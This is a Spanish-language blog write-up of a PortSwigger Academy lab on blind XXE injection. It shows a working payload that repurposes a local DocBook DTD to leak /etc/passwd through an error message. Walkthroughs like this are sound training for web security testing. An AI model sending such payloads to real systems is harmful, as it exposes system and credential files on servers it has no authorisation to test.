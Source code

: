 +++
author = "Alux"
title = "Portswigger Academy Learning Path: XML external entity (XXE) Lab 7"
date = "2022-01-26"
description = "Lab: Exploiting XXE to retrieve data by repurposing a local DTD"
tags = [
    "xxe",
    "blind xxe",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Exploiting XXE to retrieve data by repurposing a local DTD

La vulnerabilidad o el ataque de XXE es poder realizar una inyeccion XML en la aplicacion que analiza la entrada que le pasa el usuario o el sistema. Lo que hace que un analizados XML no este configuracion o este configurado debilmente para que procese peticiones que un usuario mal intencionado pueda inyectar. Pudiendo llegar a ejecucion de comandos, lectura de archivos y otros.

![Proceso de XXE](xxe-injection.svg)

## Reconocimiento

En este <cite>laboratorio[^1]</cite>la finalidad es poder realizar una inyeccion XXE pero en este caso de tipo blind valiendose de la configuracion debil del analizador. Pero esta vez exfiltrando datos a travez de un DTD interno el cual vamos a utilizar para generar un error y exfiltrar los datos del archivo `/etc/passwd/`

Primero notamos la opcion de `Check stock` de la web en la que recuperamos la existencia de los productos.

![Check stock](checkstock.png)

Al ir a la opcion de `Check stock` en burp vemos la peticion que se hace al servidor usando lenguaje XML para realizar la peticion.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

![Peticion para recuperar el stock del producto](request1.png)

Ahora necesitamos realizar una referencia hacia un DTD interno el cual utilizaremos mas adelante

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

![Referenciar a DTD interno valido](request2.png)

Pero al referenciar a uno no valido genera el siguiente error:

![Referencia a DTD interno no valido](request3.png)


## Explotacion

Sabiendo esto lo que haremos es realizar una referencia a la DTD como base y una entidad en su casa que es la que contiene ISOamso la cual utilizaremos. El proceso que se sigue es definir la entidad local referenciando a la DTD local que utizamos y encontramos. Y redefinimos la entidad para utilizar la entidad dentro de la DTD que es ISOamso, referenciando hacia el archivo que queremos leer que es `/etc/passwd` cuando se genere un error, error que produciremos mas adelante tratando de llamar un archivo que no existe. Y ver que nos devuelve automaticamente lo que queremos.

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> 
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

![Inyeccion XXE para mostrar archivo /etc/passwd](request4.png)

Y con esto hemos resuelto el lab. 

![Laboratorio resuelto](resuelto.png)

[^1]: [Laboratorio](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)